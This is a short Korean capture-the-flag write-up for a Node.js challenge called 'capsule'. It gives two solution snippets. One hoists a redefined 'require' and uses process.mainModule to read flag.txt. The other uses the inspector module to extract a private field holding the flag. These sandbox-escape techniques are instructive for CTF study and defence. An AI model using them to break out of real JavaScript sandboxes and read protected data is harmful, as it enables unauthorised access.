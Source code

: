 # capsule
### #v8 #javascript #node.js #hoisting(?)


![intro](../../.images/capsule1.png)

[begginer_capsule](../beginner_capsule/README.md) 과 유사한 코드이다. 

다만 `console.log(eval('_flag.get(flag)'));` 의 코드로는 풀리지 않는다.

![error](../../.images/capsule2.png)


`_flag` 는 undefined 상태라고 한다.


우선 가장 간단한 풀이는 [함수 호이스팅](https://ojava.tistory.com/144) 을 이용한 풀이이다.

`require` 함수를 호이스팅 하였는데 file system 모듈은 `process.mainModule` 을 이용하여 가져옴으로써 우회 하였다.

이걸 생각한 사람은 천재가 아닐까 싶다.

```javascript
function require() {
  const fs = process.mainModule.require('fs');
  console.log(fs.readFileSync('flag.txt').toString());
}
```


그리고 출제자가 생각한 풀이는 다음과 같다.

```javascript
global.flag = flag;
const inspector = require('inspector');
const session = new inspector.Session();
session.connect();
session.post('Runtime.evaluate', {expression: 'flag'}, (e, d) => {
  session.post('Runtime.getProperties', {objectId: d.result.objectId}, (e, d) => {
    console.log(d.privateProperties[0].value.value);
  });
});
```